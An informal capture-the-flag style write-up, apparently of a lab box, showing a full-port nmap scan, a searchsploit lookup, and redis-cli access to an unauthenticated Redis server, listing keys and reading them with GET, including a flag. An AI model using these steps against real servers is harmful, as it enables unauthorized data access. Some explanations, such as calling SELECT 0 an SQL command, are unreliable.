

Hack Redis server
First is information gathering
we use
sudo nmap -p- --min-rate 5000 10.129.24.31
To perform a port scan using Nmap on all ports with the --min-rate option, you can use the following example:
nmap -p- --min-rate 5000 <target_ip>
Replace <target_ip> with the IP address you want to scan. This command scans all ports (-p- option) with a minimum rate of 5000 packets per second (--min-rate 5000). The --min-rate option helps to speed up the scan by setting the minimum number of packets sent per second.
sudo nmap -p- --min-rate 5000 10.129.24.31

from there after getting the open port and and its service i now use the searchsploit to get more result it is also advisable to explore various command that that service use in my case service is redis
searchsploit redis ---this will give more exploits that are available
after a research i got that you use the command utility of redis to join to redis server
and its command is
redis-cli -h 10.129.24.31 - h specifies the hostname redis-cli is command to enter shell of redis server and then ip of target machine
after you are connecte you get various processes and you can use various command to get the information you like
eg INFO --- i used it to get varous information in server

this is showing the keyspace available in database
but i used sql command to check for keyspace
SELECT 0 -----it means select all keys from index 0
DBSIZE -----the size of database
TO check all the keys i used
KEYS * ---Means select all keys and it responded
the available keys are temp,flag,stor,numb
then you use the command get to read the keys
GET temp
GET flag
GET stor
GET numb
AND I GOT ALL THE KEYS
MACHINE HACKED